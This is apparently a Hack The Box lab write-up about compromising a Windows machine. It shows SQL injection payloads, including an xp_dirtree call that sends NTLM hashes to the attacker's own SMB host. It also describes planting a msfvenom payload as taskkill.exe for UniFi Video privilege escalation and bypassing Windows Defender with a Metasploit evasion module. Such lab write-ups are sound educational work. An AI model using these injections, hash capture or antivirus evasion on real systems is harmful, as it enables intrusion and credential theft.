



# PORT SCAN
* **80** &#8594; HTTP (IIS 10.0)
* **443** &#8594; HTTPS (IIS 10.0)
* **3389** &#8594; MS-Terminal-Service (RDP)
* **5985** &#8594; WinRM

   

# ENUMERATION & USER FLAG
This machne have a high score on `Real`, good to know! The port 80 is kinda nice but is just a different placeholder for the default IIS service

Same thing on the HTTPS but the `Common Name` value is pretty cool, a hint for the machine purpose

Well I run some dirbusting and subdomain discovery and the former found a `/remote` path on the HTTP service

I followd the little popup and use HTTPS instead and now we can investigate this interesting interface (note that now we know the Windows Server version, is written on the top)

[Here](https://powershellisfun.com/2023/09/14/using-windows-powershell-web-access/) I found a good description of what is **<u>Windows PowerShell Web Access</u>**

> Windows PowerShell® Web Access, first introduced in Windows Server® 2012, acts as a Windows PowerShell gateway, providing a web-based Windows PowerShell console that is targeted at a remote computer [...]

Clear this can turn really usefull for us but we need credentials and the Computer Name, pretty bad ah?
Another path was found, `/mvc`

We have a search feature, if we search for an empty strings the app return **504** items but the magic happens whenI try with the simplest check for SQL injections `' OR 1=1 ;--`

Gotch'a now we have a way in! Using SQLMAP I know the DBMS is MSSQL (even if seems obvious was worh to spend 2 seconds and be sure about it). I also removed the `--` strings at the end to cause an error page pop up which highlight the hidden gem: a username!

I was not able to extract something usefull but there is a thing that we can do and I have did in a different machine but not through a SQL injection, we can abuse `xp_dirtree` to get NTLM2 hash of the user

The endpoint that we can use to the injection is the `/mvc/Product.aspx?ProductSubCategoryId=[term_to_search]` if we inject something like `; EXEC master.sys.xp_dirtree '\\10.10.14.15\LOL' ;--` we should be able to list all the files on our self hosted SMB server

Good time to unleash the most powerfull cat out there, `hashcat`

Gotch'a, we can login through WinRM and grab the user flag

   

# PRIVILEGE ESCALATION

When login occurs we spawn in the `Documents` folder where inside we have a clue of the privilege escalation

Unifi video, cool. The machine has been created in 2018 so I will check for some known vulnerabilities from that year and down

We have something interesting here, first thing first we have the ability to append data inside the unifi directory

When the application start or stop execute the `taskkill.exe` file inside the directory where unifivideo is installed as root but that file doesn't exist so we can create it for it with **msfvenom** and copy that with SMB.
Sadly I am having some issues in the upload phase

With some research this is a common error when Windows Defender kicks in, I also tried with `wget` but the file is deleted after a second, cool we have to defeat the golem here!
I tried to use some encryption module on the payload creation like `XOR` and `Shikata ga nai` but nothing, I had some hopes on the latter but no way Defender is doing the job.

I have found a metasploit module which can help me to bypass defender, the [evasion/windows/windows_defender_exe](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/evasion/windows/windows_defender_exe.md). Maybe this is not a cool hacker way to solve this and let me look like a script kiddie but it does his job. Use a RC4 encryption and a costum compilier to hide from static analysis plus anti-emulation for dynamic analysis

Cool, I was able to upload and mantain the executable so at least for the  static analysis Defender is not able to classify the file as malicious. I can't be 100% sure it works until I try to trigger it so is time to start/stop/restart the service! Things like `Get-Process` are not permitted to use, we have too much low priv for that apparently so I need to enumerate directly the `Registry`.

One way to do this is to check the [Installer Properties](https://learn.microsoft.com/en-us/windows/win32/msi/uninstall-registry-key) with `cmd /c REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall`. With that we found the **Unifi Video** svc

Another way to enumerate that is through another registry tree, the one that store information about each service on the system: `HKLM:\system\currentcontrolset\services`. We can `cd` inside the registry and `ls`

We have the info we need now we can use `Start-Service "Ubiquiti UniFi Video"`, finger cross and we have the meterpeter session. The evasion module worked smoothly! 

  

> I have learned a lot here, the old trick with `xp_dirtree` is always there to save the day. Finally I get my hands dirty with some Evasion after I pwned the machine I look around for other HTB players solution and there is a lot involeved so I took my time to go through them looking new way to bypass the Golem. Cool Stuff!
